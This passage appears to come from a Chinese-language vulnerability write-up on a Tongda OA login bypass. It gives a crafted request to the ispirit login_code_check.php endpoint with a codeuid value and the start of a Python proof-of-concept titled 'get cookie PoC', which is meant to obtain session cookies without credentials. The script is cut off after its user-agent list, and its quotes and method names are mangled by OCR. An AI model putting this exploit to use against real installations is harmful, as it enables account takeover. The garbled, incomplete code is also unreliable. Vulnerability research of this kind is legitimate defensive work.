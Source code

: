 > 第三步：

```
http://www.0-sec.org/ispirit/login_code_check.php?codeuid={EED2B9FE-F865-DCF1-0E8D-3326AE163F6D} 
```

![image](../img/c116c991f4c80ad6d8a5661fdc0f3496.png)

> 第四步：

![image](../img/12d2fa48e8776ad49126d29871d5b9cb.png)

### 获取cookie poc

```
import requests
import argparse
import random
import warnings
import sys
import re

class Tond_da_poc():

def **init**(self,url):

self.url = url+’/’

self.user_agent =USER_AGENTS = [

“Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)”,

“Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)”,

“Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)”,

“Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)”,

“Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)”,

“Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)”,
```